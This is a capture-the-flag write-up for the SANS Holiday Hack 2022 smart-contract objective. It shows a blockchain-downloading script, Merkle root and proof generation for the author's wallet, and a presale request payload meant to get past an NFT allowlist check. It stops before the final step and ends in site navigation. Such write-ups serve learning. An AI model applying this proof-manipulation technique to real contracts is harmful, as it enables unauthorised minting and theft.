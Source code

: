 # SANS Holiday Hack Challenge 2022 - KringleCon V: Golden Rings
## Recover the Cloud Ring
### Exploit a Smart Contract
Difficulty: :christmas_tree::christmas_tree::christmas_tree::christmas_tree::christmas_tree:  
Exploit flaws in a smart contract to buy yourself a Bored Sporc NFT. Find hints for this objective hidden throughout the tunnels.

#### Solution
I had no clue where to start, so I started by downloading the blockchain’s content thinking that maybe I could copy from someone who already made it. I wrote the following script ([downloader.py](downloader.py)) to download from the blockchain:
```python
import requests
import os

breaker = False
blocknumber = 0
while not breaker:
	response = requests.post("https://prod-blockbrowser.kringle.co.in/cgi-bin/blockdata", json={"blocknumber": blocknumber})
	if "Invalid block number" in response.text:
		breaker = True
	else:
		with open("blocks/{}".format(blocknumber), 'w') as file:
			file.write(response.text)
		print ("Block #{} wrote {} on file".format(blocknumber, len(response.text)))
		blocknumber += 1
```
Knowing I would have to send money to the address `0xe8fC6f6a76BE243122E3d01A1c544F87f1264d3a`, I searched for it and found block #117 where `0xa1861E96DeF10987E1793c8f77E811032069f8E9` made a transaction with comment `Pre-sale purchase of a BSRS NFT.`. Looking for other blocks related to that address I also found block #118 where the following call was made to the function `presale_mint`:
```solidity
function: presale_mint(address,bytes32,bytes32[])
parameters: {'to': '0xa1861E96DeF10987E1793c8f77E811032069f8E9', '_root': b'\xc4t\x1e\x81\x06[\xff\x02v.\xd3\xce\x06ncY\xc1\xf4ae\x18\xe06\x99\xc8\x882\xef\x84\x91p\x14', '_proof': [b'S\x80\xc7\xb7\xae\x81\xa5\x8e\xb9\x8d\x9cx\xdeJ\x1f\xd7\xfd\x955\xfc\x95>\xd2\xbe`-\xaa\xa4\x17g1*']}
```
Back to square one, I had no clue what that meant but I knew I would have found something in the talks and there it is: [You Can Still Have Fun With Non-Fungible Tokens from Prof Qwerty Petabyte!](https://www.youtube.com/watch?v=Qt_RWBq63S8). At the end the Prof says he’s going to make some code available on github. Didn’t take long to find the [QPetabyte/Merkle_Trees](https://github.com/QPetabyte/Merkle_Trees) github repository. Downloaded, just modified the dummy address with mine, maybe added a `print`, and run the code:
```bash
thedead@dellian:~$ python3 merkle_tree.py 
Wallet: 0x4a831cfc7fD1A983b4AF04CfbF5da984bD6f7E7E
Root: 0x38dc3516d6143d1f1c93bb77c231559f4f72fc5e0c887a3db9d9d4ba78bcc235
Proof: ['0x5380c7b7ae81a58eb98d9c78de4a1fd7fd9535fc953ed2be602daaa41767312a']
```
The proof obviously didn’t work right away, so I started looking around the page and how it worked, discovering it was making a request to https://boredsporcrowboatsociety.com/cgi-bin/presale with payload:
```js
{
  "WalletID": "0x4a831cfc7fD1A983b4AF04CfbF5da984bD6f7E7E",
  "Root": "0x38dc3516d6143d1f1c93bb77c231559f4f72fc5e0c887a3db9d9d4ba78bcc235",
  "Proof": "0x5380c7b7ae81a58eb98d9c78de4a1fd7fd9535fc953ed2be602daaa41767312a",
  "Validate": "true",
  "Session": "3cfb8093-924f-444d-8820-4bc44f3ed522"
}
```
I went through other transactions I could find in the part of the blockchain I downloaded and noticed all of them had a different `_root` value:
```bash
thedead@dellian:~$ for i in $(grep "Pre-sale purchase of a BSRS NFT." * | cut -d "'" -f4); do root=$(grep $i * | grep "_proof" | cut -d "'" -f 8 | tr -d "\n" | python3 -c "import sys; print (bytes(sys.stdin.buffer.read()).decode('unicode_escape').encode('raw_unicode_escape').hex())") && echo $i $root; done
0xa1861E96DeF10987E1793c8f77E811032069f8E9 c4741e81065bff02762ed3ce066e6359c1f4616518e03699c88832ef84917014
0xc249927fb81bde4eA7B9Dc9e4c9E6F503F147fe2 f2bf4cf6d84d250a1bf695528273f62fff303611e7dd438641e78d6fda44658e
0x8153e0E5cabC22545A1fe4d0149C2Fdc486A8ad8 e5bdb66a84dc18431511e896e41e6fba6f8ac39d939bd9ba38f638b5c8bed9f9
0x7F7cAA97b73fD38d6740e59C159428509eE00082 f07d7ff46fb5917ff10689ae048d82234360664ba651ab584444c1dba6c70853
0xb9aA688bB7A1B085f307bf9a11790BFD24C5D5C2 797a8d998d0cf398b359293779d1b5b12f4bea007719706a7969197e4be125fc
0x8dA96065810cF0623C92D9866Aff86D400d61a42 a1923c132138c61dc1938bd8b1537341d9c575e7bbba8e86f205089694683acc
0xD8EEAf7120E144f9b1de9326D2107992C4318015 9361e25219333c7a8b3c1dfaccdb301880d340290f01c13a89e34c448eb4abb5
0x40d9F41e7a951C301FD7eBCB31E6A96f6C61992e d53bb3cb4648f394794570f7ce6d91b5f111fdc6806dffed36eacdea9e8d666a
0x091B7161d62862a6c7626Af66a657FcdAB52E78f c5b833fb369afa21aecbf38ea248d4c1e63872cf1860aef417f5d414580537a0
0x079f77D988B4396C8c0e501ae507d9D4aAB678BC b25d3c5f3e0f1ae12d710a038897f5fec1cfbfba56f762c842d3a3fb6d9c2edb
0x99cA6f0cfc93255c92BDb8062B3972306508c370 f6a794f037fb668fe73dc5746c6f133ea30fa4e884c46044d14e25a97ea0398c
0xf29b73c985f9aFE42030B5336f3146FB10FAC15e 4ad25ce7d5540a0336af8aea01c38933b8b5398130c31414306c05ab1ac035c3
0xC61a623CE8ea2899CB113ba773156B9dAa73AeC8 c10e1eb45d869b4ee2d00f147ac2231e4cb1ca88b6cde39dcf00f71100367ba9
```
We all know that one-liner is just wrong...I think I have a problem...  
![oneliner](imgs/oneliner.jpg)  
Used the wallet addresses in the Prof’s program:
```bash
thedead@dellian:~$ python3 merkle_tree.py 
0xa1861E96DeF10987E1793c8f77E811032069f8E9 c4741e81065bff02762ed3ce066e6359c1f4616518e03699c88832ef84917014
0xc249927fb81bde4eA7B9Dc9e4c9E6F503F147fe2 f2bf4cf6d84d250a1bf695528273f62fff303611e7dd438641e78d6fda44658e
0x8153e0E5cabC22545A1fe4d0149C2Fdc486A8ad8 e5bdb66a84dc18431511e896e41e6fba6f8ac39d939bd9ba38f638b5c8bed9f9
0x7F7cAA97b73fD38d6740e59C159428509eE00082 f5065af767afa3331fdf3fe4e8919311d3671cdc075ea7eeaaad00b82d9b11a0
0xb9aA688bB7A1B085f307bf9a11790BFD24C5D5C2 797a8d998d0cf398b359293779d1b5b12f4bea007719706a7969197e4be125fc
0x8dA96065810cF0623C92D9866Aff86D400d61a42 a1923c132138c61dc1938bd8b1537341d9c575e7bbba8e86f205089694683acc
0xD8EEAf7120E144f9b1de9326D2107992C4318015 9361e25219333c7a8b3c1dfaccdb301880d340290f01c13a89e34c448eb4abb5
0x40d9F41e7a951C301FD7eBCB31E6A96f6C61992e 733fc0984919125249f72f6f56e9064d333b699482ae64cac8168c5f7a7ef2ef
0x091B7161d62862a6c7626Af66a657FcdAB52E78f c5b833fb369afa21aecbf38ea248d4c1e63872cf1860aef417f5d414580537a0
0x079f77D988B4396C8c0e501ae507d9D4aAB678BC b3aa7fbc582ce9dcd7ddb484a8b87806cd630b383815ddba39f0ccde58839054
0x99cA6f0cfc93255c92BDb8062B3972306508c370 f6a794f037fb668fe73dc5746c6f133ea30fa4e884c46044d14e25a97ea0398c
0xf29b73c985f9aFE42030B5336f3146FB10FAC15e 4ad25ce7d5540a0336af8aea01c38933b8b5398130c31414306c05ab1ac035c3
0xC61a623CE8ea2899CB113ba773156B9dAa73AeC8 4ef36e7bfd180e521aba0817111da440cb6ca2b40b232ab6f9ff419db8719756
```
I ran the result values in a spreadsheet to compare (...[hello Excel my old friend](https://www.riffusion.com/?&prompt=hello+Excel+my+old+friend&seed=745235&denoising=0.75&seedImageId=og_beat)...) which confirmed it was not a coincidence:
| Address | merkle_tree.py root | block root | Root Match |
+---------+---------------------+------------+------------+
| `0xa1861E96DeF10987E1793c8f77E811032069f8E9` | `c4741e81065bff02762ed3ce066e6359c1f4616518e03699c88832ef84917014` | `c4741e81065bff02762ed3ce066e6359c1f4616518e03699c88832ef84917014 | TRUE` |
| `0xc249927fb81bde4eA7B9Dc9e4c9E6F503F147fe2` | `f2bf4cf6d84d250a1bf695528273f62fff303611e7dd438641e78d6fda44658e` | `f2bf4cf6d84d250a1bf695528273f62fff303611e7dd438641e78d6fda44658e | TRUE` |
| `0x8153e0E5cabC22545A1fe4d0149C2Fdc486A8ad8` | `e5bdb66a84dc18431511e896e41e6fba6f8ac39d939bd9ba38f638b5c8bed9f9` | `e5bdb66a84dc18431511e896e41e6fba6f8ac39d939bd9ba38f638b5c8bed9f9 | TRUE` |
| `0x7F7cAA97b73fD38d6740e59C159428509eE00082` | `f5065af767afa3331fdf3fe4e8919311d3671cdc075ea7eeaaad00b82d9b11a0` | `f07d7ff46fb5917ff10689ae048d82234360664ba651ab584444c1dba6c70853 | FALSE` |
| `0xb9aA688bB7A1B085f307bf9a11790BFD24C5D5C2` | `797a8d998d0cf398b359293779d1b5b12f4bea007719706a7969197e4be125fc` | `797a8d998d0cf398b359293779d1b5b12f4bea007719706a7969197e4be125fc | TRUE` |
| `0x8dA96065810cF0623C92D9866Aff86D400d61a42` | `a1923c132138c61dc1938bd8b1537341d9c575e7bbba8e86f205089694683acc` | `a1923c132138c61dc1938bd8b1537341d9c575e7bbba8e86f205089694683acc | TRUE` |
| `0xD8EEAf7120E144f9b1de9326D2107992C4318015` | `9361e25219333c7a8b3c1dfaccdb301880d340290f01c13a89e34c448eb4abb5` | `9361e25219333c7a8b3c1dfaccdb301880d340290f01c13a89e34c448eb4abb5 | TRUE` |
| `0x40d9F41e7a951C301FD7eBCB31E6A96f6C61992e` | `733fc0984919125249f72f6f56e9064d333b699482ae64cac8168c5f7a7ef2ef` | `d53bb3cb4648f394794570f7ce6d91b5f111fdc6806dffed36eacdea9e8d666a | FALSE` |
| `0x091B7161d62862a6c7626Af66a657FcdAB52E78f` | `c5b833fb369afa21aecbf38ea248d4c1e63872cf1860aef417f5d414580537a0` | `c5b833fb369afa21aecbf38ea248d4c1e63872cf1860aef417f5d414580537a0 | TRUE` |
| `0x079f77D988B4396C8c0e501ae507d9D4aAB678BC` | `b3aa7fbc582ce9dcd7ddb484a8b87806cd630b383815ddba39f0ccde58839054` | `b25d3c5f3e0f1ae12d710a038897f5fec1cfbfba56f762c842d3a3fb6d9c2edb | FALSE` |
| `0x99cA6f0cfc93255c92BDb8062B3972306508c370` | `f6a794f037fb668fe73dc5746c6f133ea30fa4e884c46044d14e25a97ea0398c` | `f6a794f037fb668fe73dc5746c6f133ea30fa4e884c46044d14e25a97ea0398c | TRUE` |
| `0xf29b73c985f9aFE42030B5336f3146FB10FAC15e` | `4ad25ce7d5540a0336af8aea01c38933b8b5398130c31414306c05ab1ac035c3` | `4ad25ce7d5540a0336af8aea01c38933b8b5398130c31414306c05ab1ac035c3 | TRUE` |
| `0xC61a623CE8ea2899CB113ba773156B9dAa73AeC8` | `4ef36e7bfd180e521aba0817111da440cb6ca2b40b232ab6f9ff419db8719756` | `c10e1eb45d869b4ee2d00f147ac2231e4cb1ca88b6cde39dcf00f71100367ba9 | FALSE` |





---

### Mistakes were made... the key
### The Burning Ring of Fire
## [Narrative](/README.md#narrative)
## [Conclusions](/README.md#conclusions)
### [The Victors shop](/README.md#the-victors-shop)
### [Inbox (1)](/README.md#inbox-1)
---
## [thedead@dellian:~$ whoami](/README.md#thedeaddellian-whoami)
## KringleCon Orientation
## Recover the Tolkien Ring